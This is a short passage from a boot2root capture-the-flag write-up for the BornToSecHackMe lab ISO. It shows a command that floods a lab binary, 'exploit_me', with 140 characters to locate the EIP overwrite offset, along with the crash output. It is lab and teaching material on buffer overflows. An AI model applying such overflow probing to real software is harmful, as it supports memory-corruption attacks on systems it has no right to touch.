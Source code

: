 # boot2root
root a iso using multiple vulnerabilities 


## ZAZ user

#### find char numbers to overwrite the EIP

```
./exploit_me `printf 'A%.0s' {1..140}`
```
```
zaz@BornToSecHackMe:~$ ./exploit_me `printf 'A%.0s' {1..140}`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Illegal instruction (core dumped)
```

